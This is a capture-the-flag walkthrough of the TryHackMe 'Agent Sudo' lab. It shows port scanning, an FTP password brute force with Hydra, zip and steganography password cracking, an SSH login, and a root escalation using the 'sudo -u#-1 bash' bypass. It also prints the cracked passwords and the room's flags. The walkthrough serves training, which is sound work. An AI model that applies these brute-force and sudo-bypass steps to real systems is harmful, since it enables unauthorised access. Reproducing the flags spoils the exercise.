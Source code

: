https://tryhackme.com/room/agentsudoctf

BoxIP = 10.10.169.240

**Initial Enumeration**

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# rustscan --ulimit 5000 -b 2500 -a 10.10.169.240 -- -A
    .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
    | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
    | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
    `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
    The Modern Day Port Scanner.
    ________________________________________
    : https://discord.gg/GFrQsGy           :
    : https://github.com/RustScan/RustScan :
     --------------------------------------
    🌍HACK THE PLANET🌍

    [~] The config file is expected to be at "/root/.rustscan.toml"
    [~] Automatically increasing ulimit value to 5000.
    Open 10.10.169.240:21
    Open 10.10.169.240:22
    Open 10.10.169.240:80


    PORT   STATE SERVICE REASON         VERSION
    21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
    |   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
    |   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))


Lets start with the webserver enumeration

On the webpage we get a hint 

    Dear agents,

    Use your own codename as user-agent to access the site.

    From,
    Agent R 

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# curl http://10.10.169.240/ -H 'User-Agent: C' -i
    HTTP/1.1 302 Found
    Date: Wed, 24 Aug 2022 19:14:19 GMT
    Server: Apache/2.4.29 (Ubuntu)
    Location: agent_C_attention.php
    Content-Length: 218
    Content-Type: text/html; charset=UTF-8



When we use the location defined we find the following text

    Attention chris,

    Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

    From,
    Agent R 

Since that is a weakpassword let us start up a hydra on the ftp server

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.169.240 ftp
    Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-24 15:12:59
    [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking ftp://10.10.169.240:21/
    [STATUS] 245.00 tries/min, 245 tries in 00:01h, 14344154 to do in 975:48h, 16 active
    [21][ftp] host: 10.10.169.240   login: chris   password: crystal

Using the found username and the found password we will loginto the FTP server

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# ftp 10.10.169.240
    Connected to 10.10.169.240.
    220 (vsFTPd 3.0.3)
    Name (10.10.169.240:kali): chris
    331 Please specify the password.
    Password: 
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls -la
    229 Entering Extended Passive Mode (|||31346|)
    150 Here comes the directory listing.
    drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
    drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
    -rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
    -rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
    -rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png


Lets grab those files

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# cat To_agentJ.txt 
    Dear agent J,

    All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

    From,
    Agent C

Alright so we will be dealing with Stegenography. Performing a binwalk on cutie.png we find some interesting items

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# binwalk cutie.png     

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
    869           0x365           Zlib compressed data, best compression
    34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
    34820         0x8804          End of Zip archive, footer length: 22

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# zip2john -s cutie.png > hash                                                                    1 ⨯
    Scanning archive for local file headers

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# ls
    cute-alien.jpg  cutie.png  hash  hash2  hydra.restore  To_agentJ.txt

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# cat hash
    cutie.png/To_agentR.txt:$zip2$*0*1*0*4673cae714579045*67aa*4e*61c4cf3af94e649f827e5964ce575c5f7a239c48fb992c8ea8cbffe51d03755e0ca861a5a3dcbabfa618784b85075f0ef476c6da8261805bd0a4309db38835ad32613e3dc5d7e87c0f91c0b5e64e*4969f382486cb6767ae6*$/zip2$:To_agentR.txt:cutie.png:cutie.png

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# john hash --wordlist=/usr/share/wordlists/rockyou.txt                 
    Using default input encoding: UTF-8
    Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
    Cost 1 (HMAC size) is 78 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    alien            (cutie.png/To_agentR.txt)     


    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt
    StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

    [i] Found passphrase: "Area51"           
    [i] Original filename: "message.txt"
    [i] Extracting to "cute-alien.jpg.out".
    
    
      ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# steghide --extract -sf cute-alien.jpg                   
    Enter passphrase: 
    wrote extracted data to "message.txt".

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# ls
    cute-alien.jpg  cute-alien.jpg.out  cutie.png  hash  hash2  hydra.restore  message.txt  To_agentJ.txt

    ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# cat message.txt 
    Hi james,

    Glad you find this message. Your login password is hackerrules!

    Don't ask me why the password look cheesy, ask agent R who set this password for you.

    Your buddy,
    chris

     ┌──(root💀kali)-[/home/kali/agentsudo]
    └─# ssh james@10.10.169.240
    james@10.10.169.240's password: 
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

      System information as of Wed Aug 24 19:34:58 UTC 2022

      System load:  0.0               Processes:           97
      Usage of /:   40.7% of 9.78GB   Users logged in:     0
      Memory usage: 30%               IP address for eth0: 10.10.169.240
      Swap usage:   0%


    75 packages can be updated.
    33 updates are security updates.


    Last login: Tue Oct 29 14:26:27 2019
    james@agent-sudo:~$ 


    james@agent-sudo:~$ cat user_flag.txt 
    b03d975e8c92a7c04146cfa7a5a313c7



    james@agent-sudo:/home$ sudo -l
    [sudo] password for james: 
    Matching Defaults entries for james on agent-sudo:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User james may run the following commands on agent-sudo:
        (ALL, !root) /bin/bash


    james@agent-sudo:~$ sudo -u#-1 bash
    root@agent-sudo:~# whoami
    root
    root@agent-sudo:~# cd /root
    root@agent-sudo:/root# ls
    root.txt
    root@agent-sudo:/root# cat root.txt
    To Mr.hacker,

    Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

    Your flag is 
    b53a02f55b57d4439e3341834d70c062

   



